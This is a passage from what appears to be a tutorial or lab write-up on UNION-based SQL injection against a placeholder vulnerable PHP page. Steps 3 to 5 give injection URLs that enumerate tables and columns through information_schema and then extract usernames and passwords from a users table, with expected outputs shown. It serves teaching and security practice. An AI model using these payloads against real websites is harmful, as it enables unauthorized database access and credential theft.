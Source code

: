 **Conclusion:** Both columns are output and injectable.

---

### Step 3: Enumerating Tables

**Purpose:** List all tables in the current database.

**Injected URL:**
```
http://example.com/vulnerable.php?id=5' union select group_concat(table_name),2 from information_schema.tables where table_schema=database() --+&Submit=Submit
```

**How it works:**
* Accesses `information_schema.tables` to fetch table names.
* `database()` returns the current database name.

**Expected Output:**

| ID | First name      | Surname |
|----|-----------------|---------|
| 5  | Bob             | Smith   |
| 5  | guestbook,users | 2       |

---

### Step 4: Enumerating Columns in `users` Table

**Purpose:** Discover all columns in the `users` table.

**Injected URL:**
```
http://example.com/vulnerable.php?id=5' union select group_concat(column_name),2 from information_schema.columns where table_name='users' --+&Submit=Submit
```

**How it works:**
* Accesses `information_schema.columns` to retrieve column names.

**Expected Output:**

| ID | First name                                           | Surname |
|----|------------------------------------------------------|---------|
| 5  | Bob                                                  | Smith   |
| 5  | user_id,first_name,last_name,user,password,avatar | 2       |

---

### Step 5: Extracting All Data from `users` Table

**Purpose:** Retrieve actual user data including sensitive fields.

**Injected URL:**
```
http://example.com/vulnerable.php?id=5' union select group_concat(user_id,':',user,':',password),2 from users --+&Submit=Submit
```
